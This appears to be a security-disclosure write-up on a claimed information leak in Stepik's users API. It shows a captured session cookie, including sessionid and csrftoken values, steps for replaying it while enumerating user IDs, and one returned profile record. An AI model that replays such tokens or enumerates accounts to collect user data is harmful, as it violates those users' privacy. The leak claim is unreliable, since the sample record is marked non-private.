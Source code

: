 # About stepik Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie:_gcl_au=1.1.1747595296.1712112618; _ga=GA1.1.798936669.1712112619; tmr_lvid=378dbb1b97b591b8fd28fb0e5333fb36; tmr_lvidTS=1712112621725; domain_sid=1JL1GbHhttRi4F2LzyGkj%3A1712112623830; _ym_uid=1712112627927153264; _ym_d=1712112627; _ym_isad=2; csrftoken=A4p2xExmNMuzxPXU2iuEsLFRueRSxVaaAvS4iAdpBfMTuG2sm12iRsC9qPiMnz4a; sessionid=w4w01bv7ymr4c2llamwt53fgaxh1mjnu; _ga_3YHTYDHHZK=GS1.1.1712120859.2.1.1712120862.57.0.0; _ym_visorc=w; tmr_detect=0%7C1712120871163
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: username,city code,etc.

> Request method: GET, information can be obtained by traversing user ids[],such as "415832025","651763","37228178","470788160"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|---------|---|-----------|
|So Y|https://stepik.org/api/users?ids%5B%5D=415832025&ids%5B%5D=651763&ids%5B%5D=37228178&ids%5B%5D=470788160|ids%5B%5D=415832025ids%5B%5D=651763ids%5B%5D=37228178ids%5B%5D=470788160|



### Leaked packet cases 
``` 
{
            "id": 37228178,
            "profile": 37228178,
            "is_private": false,
            "is_active": true,
            "is_guest": false,
            "is_organization": false,
            "is_author": true,
            "short_bio": "Основатель и преподаватель онлайн-школы BEEGEEK.  Автор курсов \"Поколение Python\".",
            "details": "Цель образовательных курсов \"Поколение Python\" – сделать процесс обучения проще и эффективнее.\n<br>\n<br>\n\nНаш официальный сайт: <a href=\"https://pygen.ru\" rel=\"noopener noreferrer nofollow\" target=\"_ blank\">pygen.ru</a>.\n\n<br>\n\nНаш официальный telegram-канал: <a href=\"https://t.me/pygen_ru\" rel=\"noopener noreferrer nofollow\" target=\"_ blank\">t.me/pygen_ru</a>.\n\n<br>\n\nНаш официальный магазин мерча: <a href=\"https://shop.pygen.ru/\" rel=\"noopener noreferrer nofollow\" target=\"_ blank\">shop.pygen.ru</a>.\n<br>\n\nНаш официальный YouTube-канал: <a href=\"https://www.youtube.com/@pygen_ru\" rel=\"noopener noreferrer nofollow\" target=\"_ blank\">@pygen_ru</a>.\n\n<br>\n<br>\n\n<p style=\"text-align: right;\">❤️ Happy Pythoning! 🐍</p>",
            "first_name": "Тимур 🐍",
            "last_name": "Гуев",
            "full_name": "Тимур 🐍 Гуев",
            "alias": "tguev",
            "avatar": "https://cdn.stepik.net/media/users/37228178/avatar.png",
            "cover": null,
            "city": 524901,
            "knowledge": 361,
            "knowledge_rank": 316745,
            "reputation": 133235661,
            "reputation_rank": 1,
            "join_date": "2017-10-15T14:58:07Z",
            "social_profiles": [
                38488,
                38487,
                30727
            ],
            "solved_steps_count": 361,
            "created_courses_count": 21,
            "created_lessons_count": 4649,
            "issued_certificates_count": 169748,
            "followers_count": 1135089
        },
```